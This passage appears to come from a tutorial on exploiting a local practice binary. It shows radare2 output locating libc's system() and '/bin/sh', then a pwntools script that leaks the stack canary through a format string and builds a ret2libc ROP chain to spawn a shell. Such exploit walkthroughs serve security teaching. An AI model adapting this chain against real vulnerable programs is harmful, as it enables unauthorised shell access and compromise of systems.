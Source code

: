 ```

[0x555555554630]> dmi libc system~ system$
1406 0x0004f420 0x7ffff7a31420   WEAK   FUNC   45 system

Searching 7 bytes in [0x7ffff7dd3000-0x7ffff7dfc000]
hits: 0
0x7ffff7b95d88 hit2_0 .cempty == 1-c/bin/shexit 0canonica.
[0x555555554630]> pxw @ 0x7ffff7b95d88
0x7ffff7b95d88  0x6e69622f 0x0068732f 0x74697865 0x63003020  /bin/sh.exit 0.c
0x7ffff7b95d98  0x6e6f6e61 0x6c616369 0x2e657a69 0x534d0063  anonicalize.c.MS
```
And then we can integrate them into a function exploit. In here I used pwntools [That can be easilly installed following this guide](https://github.com/Gallopsled/pwntools-tutorial/blob/master/installing.md).

And I crafted the exploit like this. Note that we can either use the return from libc technique by finding libc (or any other if it fits) base address and then calling addresses relative from that point, or we can either just call those addresses directly (harcoding everything). Generally doing relative addresses from libc will be more useful as we face ASLR and/or work on different systems.
```Py
#!/usr/bin/env python3

from pwn import *
from struct import pack

exe = context.binary = ELF('./vuln_canary')

libc_base_address = 0x7ffff79e2000

ret = libc_base_address+0x3F137A
# ret  = 0x7ffff7dd337a

pop_rdi = libc_base_address + 0x3F27FB
# pop_rdi = 0x7ffff7dd47fb

bin_sh = libc_base_address + 0x1B3D88
#bin_sh = 0x7ffff7b95d88 

_system = libc_base_address + 0x4F420
#_system = 0x7ffff7a31420

_exit = libc_base_address + 0x43110
# _exit =0x7ffff7a25110

print("[+] Spawning process...")

io = process([exe.path , "%33$llx"])
canary = int(io.readline().strip(),16)

print("[+] Canary leaked:{}".format(hex(canary)))

buf = b'A' * 200 

buf += p64(canary)
buf += b'\x42' * 8
buf += p64(ret)
buf += p64(pop_rdi)
buf += p64(bin_sh)
buf += p64(_system)
buf += p64(_exit)

with open('payload','wb') as payload:
    payload.write(buf)

```